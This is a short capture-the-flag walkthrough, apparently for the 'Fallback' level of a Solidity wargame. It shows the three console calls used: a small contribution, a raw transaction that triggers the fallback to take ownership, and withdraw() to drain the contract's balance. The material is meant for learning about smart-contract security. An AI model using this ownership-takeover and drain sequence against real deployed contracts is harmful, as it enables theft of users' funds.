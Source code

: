 # Fallback Solution

I read through the instructions to ensure I have understood what I problem I
want to solve.

The problem is to beat this level by:

- claim ownership of the contract
- reduce its balance to 0

## My approach

To be honest I was lost for a moment, then I read through the contract to ensure
I understand what was going on in the contract.

After figuring out what the contract does...

I realized I had to make a contribution to be able to claim the ownership of the
contract.

This was achieved by issuing:

```solidity
await contract.contribute({from: player, value: toWei(0.0009)})
```

After making the contribution, the transaction was sent by running:

```solidity
sendTransaction({from: player, value: toWei(0.0009), to: instance, data: '0x9999'})
```

With this, the contract was claimed.

The next command was ran to withdraw all the balance of the current instance to
reduce it to 0:

```solidity
await contract.withdraw()
```

This was a really big test for my basics of Solidity and I am so excited about
this new journeey.

See you in the next level: _Fallout_

Catch ya!!!
